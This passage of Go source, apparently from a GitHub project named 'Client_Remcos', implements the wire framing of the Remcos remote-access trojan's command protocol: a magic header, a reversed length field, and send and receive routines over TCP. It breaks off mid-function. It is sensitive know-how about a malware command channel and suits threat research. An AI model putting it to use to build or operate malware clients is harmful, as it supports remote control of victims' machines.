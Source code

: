 ```plain
```

-   remcos\_xx/remcos\_xx.go

```plain
package remcos_xx

import (
    "Client_Remcos/common"
    "encoding/hex"
    "fmt"
    "net"
    "sync"
)

var (
    mu      sync.Mutex
    stopped bool
)

func Stop() {
    mu.Lock()
    stopped = true
    mu.Unlock()
}

func RecvBuf(conn net.Conn) (buf_recv []byte, err error) {
    for {
        buffer := make([]byte, 4096)
        bytesRead, err := conn.Read(buffer)
        if err != nil {
            fmt.Println("Error reading:", err.Error())
        }
        buf_recv = append(buf_recv, buffer[:bytesRead]...)

        if hex.EncodeToString(buf_recv[:4]) == "2404ff00" {
            hex_len := []byte{}
            hex_len = append(hex_len, buf_recv[4:8]...)
            common.Reversedata(&hex_len)
            buflen := common.BytesToInt(hex_len)

            if len(buf_recv)-8 >= buflen {
                return buf_recv[8:], err
            }
        }
    }
    return
}

func ParseCommand(buf []byte) []byte {
    command := []byte{}
    command = append(command, buf...)
    common.Reversedata(&command)
    return command
}

func Sendbuf(conn net.Conn, buf []byte) {
    sendbuf := []byte{0x24, 0x04, 0xff, 0x00}
    buflen := len(buf)
    hex_len := common.IntToBytes(buflen)
    common.Reversedata(&hex_len)
    sendbuf = append(sendbuf, hex_len...)
    sendbuf = append(sendbuf, buf...)
    conn.Write(sendbuf)
```
